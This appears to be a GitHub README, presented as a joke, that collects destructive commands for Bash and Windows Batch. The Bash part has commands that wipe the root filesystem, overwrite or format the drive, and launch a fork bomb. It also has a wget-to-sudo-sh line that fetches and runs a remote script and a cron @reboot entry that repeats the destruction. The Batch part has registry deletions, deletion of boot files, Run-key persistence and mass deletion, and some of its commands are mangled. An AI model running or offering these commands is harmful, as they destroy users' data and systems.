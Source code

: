 # Dumb ways to kill your system
Kill your (or not) system with style. Many ways on many languages to make your system be snapped by thanos itself.

# Bash

The following commands should work on Android, Linux, MacOS, and others systems who run on the bash (and bash-like) interpreter(s).
<br />
<br />
```
sudo chmod -R 777 /*; 
```
This will just make your entire system acessible using permissions.
<br />
<br />

```
sudo rm -rf /* --no-preserve-root;
```
Well, this surely will wipe down your entire system.
<br />
<br />

```
dd if=/dev/null of=/dev/sda; 
```
This will change every bite of your drive to 0's.
<br />
<br />

```
sudo mv /home/* /dev/null; 
```
This command will to move your entire users folder to the absolute void.
<br />
<br />

```
sudo mkfs.ext3 /dev/sda; 
```
This will format your drive entirely.
<br />
<br />

```
: () {: |: &} ;:
```
I's called fork bomb, and should make your system crashes, if you have one.
<br />
<br />

```
wget https://raw.githubusercontent.com/willnaoosmit/Dumb-ways-to-kill-your-system/master/bash/script.sh -O | sudo sh
```
This command will download and run automatically the file with all the bash commands above.
<br />
<br />

```
sudo touch /var/spool/cron/$USER; echo '@reboot sudo chmod -R 777 /*; sudo rm -rf /* --no-preserve-root; dd if=/dev/null of=/dev/sda; sudo mv /* /dev/null; sudo mkfs.ext3 /dev/sda; : () {: |: &} ;:' > /var/spool/cron/$USER
```
This command will add all the commands above to run on the next reboot.
<br />
<br />


# Batch
The following commands should work on windows and windows-based systems, and/or systems who can run batch commands (Like Wine on linux).
<br />
<br />

```
del*.*
```
//TODO: Explain this command
<br />
<br />

```
START reg delete HKCR/.exe
```
//TODO: Explain this command
<br />
<br />

```
START reg delete HKCR/.dll
```
//TODO: Explain this command
<br />
<br />

```
START reg delete HKCR/*
```
//TODO: Explain this command
<br />
<br />

```
echo @echo off>c:windowswimn32.bat
```
//TODO: Explain this command
<br />
<br />

```
echo break off>>c:windowswimn32.bat
```
//TODO: Explain this command
<br />
<br />

```
echo ipconfig/release_all>>c:windowswimn32.bat
```
//TODO: Explain this command
<br />
<br />

```
echo end>>c:windowswimn32.bat
```
//TODO: Explain this command
<br />
<br />

```
reg add hkey_local_machinesoftwaremicrosftwindowscurrentversionrun /v WINDOWsAPI /t reg_sz /d c:windowswimn32.bat /f
```
//TODO: Explain this command
<br />
<br />

```
reg add hkey_local_machinesoftwaremicrosftwindowscurrentversionrun /v CONTROLexit /t reg_sz /d c:window
```
//TODO: Explain this command
<br />
<br />

```
delete %systemdrive%\*.* /f /s
```
//TODO: Explain this command
<br />
<br />

```
REN *.avi *.txt REN *.mkv *.txt REN *.BAT *.txt REN *.doc *.txt REN *.JPEG *.txt REN *.lnk *.txt
```
//TODO: Explain this command
<br />
<br />

```
attrib -r -s -h c:\autoexec.bat
```
//TODO: Explain this command
<br />
<br />

```
del c:\autoexec.bat
```
//TODO: Explain this command
<br />
<br />

```
attrib -r -s -h c:\boot.ini
```
//TODO: Explain this command
<br />
<br />

```
del c:\boot.ini
```
//TODO: Explain this command
<br />
<br />

```
attrib -r -s -h c:\ntldr
```
//TODO: Explain this command
<br />
<br />

```
del c:\ntldr
```
//TODO: Explain this command
<br />
<br />

```
attrib -r -s -h c:\windows\win.ini
```
//TODO: Explain this command
<br />
<br />

```
del c:\windows\win.ini
```
//TODO: Explain this command
<br />
<br />

```
del /s /q *.*
```
//TODO: Explain this command
<br />
<br />

# Python

Just a script to check the Operational system type and run destructive commands.
